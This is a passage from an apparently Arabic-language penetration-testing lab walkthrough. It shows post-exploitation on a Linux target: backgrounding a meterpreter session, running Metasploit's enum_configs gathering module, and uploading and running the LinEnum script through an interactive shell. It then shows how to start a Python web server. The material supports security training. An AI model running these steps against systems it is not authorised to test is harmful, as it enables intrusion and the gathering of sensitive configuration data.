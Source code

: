 نشوف انه الان فتح لنا meterpreter session  
خلونا نخلي السيشن في الخلفيه  
```bash
background  
```  

الان راح نستخدم بعض الموديول الي يفيدنا  
```bash
use post/linux/gather/enum_configs  
set SESSION 1  
run  
```  

طبعا نشوف انه عطانا معلومات فيه بعضها يخزنها لاكن لابد تكون فاتح الداتابيس   

طبعا الموديولز متكرر لكن الاخير هو المفيد وهي انه راح نستخدم سكربت يخلي لنا كل هذا تلقائي ويسويه لنا بضغطة زر  

GitHub repository: https://github.com/rebootuser/LinEnum  

طبعا هذا هو السكربت لابد ننقله على مشين التارقت ونشغله من مشين التارقت  
نفتح طبعا الـ meterpreter session ونشغل السكربت  
```bash
session -i 1  
cd /tmp  
upload /root/Desktop/LinEnum.sh  
shell  
/bin/bash -i  
chmod +x LinEnum.sh  
./LinEnum.sh  
```  

ونشوف كمية البيانات الي تفيدك جدا وتختصر عليك وقت كثييير  


الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب السادس الي معنا اليوم هو  

Setting Up A Web Server With Python    
-----------------------------------|  

طبعا هذا اللاب راح نتركه فقط نقرا الحل وظيفته نعرف كيف نفتح سيرفر بايثون وعندنا 3 اصدارات من البايثون  

طبعا اصدار 1 و 2 نفس الطريقه  
```bash
python -m SimpleHTTPServer 80  
``` 

اصدار بايثون3  
```bash
python -m http.server 80  
```  

طبعا راح يكون يفتح السيرفر على نفس المسار الي تكتب فيه هذا الكوماند وبتقدر تاكسسه من الايبي تبعك متبوع برقم البورت  
